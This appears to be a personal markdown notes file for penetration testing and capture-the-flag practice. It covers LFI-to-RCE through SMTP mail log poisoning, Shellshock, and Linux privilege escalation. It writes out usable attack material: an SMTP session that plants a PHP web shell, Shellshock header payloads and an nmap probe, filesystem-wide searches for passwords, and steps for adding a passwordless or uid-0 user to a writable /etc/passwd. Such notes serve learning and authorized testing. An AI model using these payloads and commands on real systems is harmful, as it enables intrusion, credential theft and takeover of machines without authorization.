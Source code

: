 Will organize things along the way 😌

When port 25 is open, and we have found an LFI on the server, then we can perform LFI2RCE through SMPT Log Poisoning. There are two ways (as far as I know) to do it. I'm going to
cover the one I have experience with.

First, read /etc/passwd through LFI and get interesting users. Then, connect to SMTP with

```
telnet <ip address> 25 (nc should work too)
```
Verify the users like so:
```
VRFY $user@localhost
```
If we get back

252 2.0.0 $user@localhost

Then we are good and we can syntax the malicious mail
```
mail from: temp
rcpt to: $user@localhost
data
Subject: Bruh
<?php echo system($_REQUEST['cmd']); ?>
.
```
Then we can go ahead and close our connection with ```quit```. Now, this mail is stored in the user's /var/mail file. Since we added a valid php script in the mail, it was passed
into the file, and we can freely use the cmd parameter to execute commands in the system and have it echo them back to us. Now we can pass e.g. a reverse shell.

References:
https://janithmalinga.github.io/redteam/ctf/2020/02/12/Using-LFI-and-SMTP-to-get-a-Shell.html
https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/ (the other way is specified here)
https://www.youtube.com/watch?v=XJmBpOd__N8

-------------------------------------------------------------------------

Beep from HTB had a possible RCE exploit which was based on VoIP. For now I don't know the whole concept, but I think I understand a general way of attacking VoIP. Essentially,
devices in a network are given an extension, i.e. a number by which they can be identified by the PBX server. So we try to find the extensions that are open, and attack them. In
a real-life scenario we probably intercept the traffic during the authentication phase and dump the creds, in boxes not really 😩 (unless bots exist)
https://www.exploit-db.com/docs/english/18136-paper-enumerating-and-breaking-voip.pdf


I'm gonna let this nicely written piece of text do the explanation for me
```
When a web server uses the Common Gateway Interface (CGI) to handle a document request, it passes various details of the request to a handler program in the environment variable list. For example, the variable HTTP_USER_AGENT has a value that, in normal usage, identifies the program sending the request. If the request handler is a Bash script, or if it executes one for example using the system(3) call, Bash will receive the environment variables passed by the server and will process them as described above. This provides a means for an attacker to trigger the Shellshock vulnerability with a specially crafted server request. Security documentation for the widely used Apache web server states: "CGI scripts can ... be extremely dangerous if they are not carefully checked." and other methods of handling web server requests are often used. There are a number of online services which attempt to test the vulnerability against web servers exposed to the Internet.
```
TLDR if cgi-bin exists, then a possible entry point is shellshock. We can try testing for this manually by changing the headers to ```() { :;}; echo; echo 1```
Notice the second echo. It might be necessary for the exploit to work and write out the proper output. Another way we can check is though the nmap script engine
```
nmap -sV -p<ports> --script http-shellshock --script-args uri=<path>,cmd=ls <target>
```
Some PointsOfInformation. It may be necessary to execute a script by calling its absolute path

```
() {:;}; echo; /bin/ls
```

References:
https://nmap.org/nsedoc/scripts/http-shellshock.html
https://en.wikipedia.org/wiki/Shellshock_(software_bug)
https://github.com/opsxcq/exploit-CVE-2014-6271
https://www.youtube.com/watch?v=IBlTdguhgfY


------------------------------------------------------------

If we gain access to a webserver (I'd say this applies more to low priv
access), and the machine is running PHP and a database, then we can search
for credentials to connect to said database. We could try something like:
```
grep -r <pattern-here> ./*
```
For the pattern we can use words like password, database, username, and once
we find an interesting one, we can search the file from which it came from.


## Privilege Escalation

### Enumeration

#### System Enumeration
`uname` is a linux command that prints system information. Different flags can be used, but for convenience sake use -a for all. Different files that can also give system information are */proc/version* and */etc/issue*
To get information on CPU architecture, run `lscpu`. Informations like sockets and core counts can determine whether exploits can be used or not.
To list services, run `ps aux`.

#### User Enumeration
Two commands to get the current user are
```
whoami
id
```
Of these, id is better because it gives more information about the gid of the user, and the groups he belongs in.
To get the commands the user can run as root, we run `sudo -l`
To get all the users in a system, we can read the */etc/passwd* file. We can get them with
`cut /etc/passwd -d : -f 1` (yup you don't have to cat and pipe)
Check the permissions of some files, like */etc/passwd* and */etc/groups*
Run ``history`` to get previous commands

#### Network Enumeration
To identify open ports and communication between the host system and other machines, run `netstat -ano`

### Exploitation

#### Kernel
To identify kernel version, run `uname -a` as listed above, and paste the version to google. Another way is through [linux exploit suggester](https://github.com/mzet-/linux-exploit-suggester), which automatically identifies CVEs, so it can find them. Below are some interesting links on linux kernel exploits:
-https://chao-tic.github.io/blog/2017/05/24/dirty-cow
-https://github.com/xairy/linux-kernel-exploitation

#### Passwords
To search for files with passwords potentially in them, execute the below commands
```
grep --color=auto -rin PASSWORD / 2> /dev/null
find / -type f -exec grep -i -I "PASSWORD" {} /dev/null \;
```
We can modify them based on what we want. We can change the path from which they start (e.g. '/', '.', '/var/www/html;, '/opt', ...) or the pattern they search for (PASSWORD, PASSWORD=, PASS=, ...)
To automate the process we can use tools like linpeas.
**NOTE!** We can also search for passwords on binary files with `strings`

#### File Permissions

Depending on the OS the **/etc/passwd** & **/etc/shadow** files may be different. We can view their permission with these commands
```
#Passwd equivalent files
ls -l /etc/passwd /etc/pwd.db /etc/master.passwd /etc/group 2>/dev/null
#Shadow equivalent files
ls -l /etc/shadow /etc/shadow- /etc/shadow~ /etc/gshadow /etc/gshadow- /etc/master.passwd /etc/spwd.db /etc/security/opasswd 2>/dev/null
```
The important things to watch out is if **/etc/passwd** is writeable for a user or group we have access to, and if **/etc/shadow** is similarly writeable.
If /etc/passwd is writeable, we can add our own user, and we can give him root permissions by exploiting the [/etc/passwd syntax](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/). We definitely want to give him a uid and gid of 0, and **/root** as home dir. So we get this line `hacker:HASH_HERE:0:0:Hacker:/root:/bin/bash`. We can use one of the below lines to generate a valid hash
```
openssl passwd -1 -salt pass pass
mkpasswd -m SHA-512 pass
python2 -c 'import crypt; print crypt.crypt("pass", "$6$pass")'
```
So we get the line `hacker:$1$hacker$TzyKlv0/R/c28R.GAeLw.1:0:0:Hacker:/root:/bin/bash`
We can also add a line with no password hash `echo 'hacker::0:0:Hacker:/root/bin/bash`, remove the x from the root user, or change our user's uid, gid, and home fields. Be careful however as this decreases the security of the system

If **/etc/shadow** is readable, then we have the hashes of the users and we can easily crack them with **hashcat** or **JtR**. View [this](https://null-byte.wonderhowto.com/how-to/crack-shadow-hashes-after-getting-root-linux-system-0186386/) link to learn more on that. To identify the hash mode for the tools, use [hashid](https://github.com/psypanda/hashID)
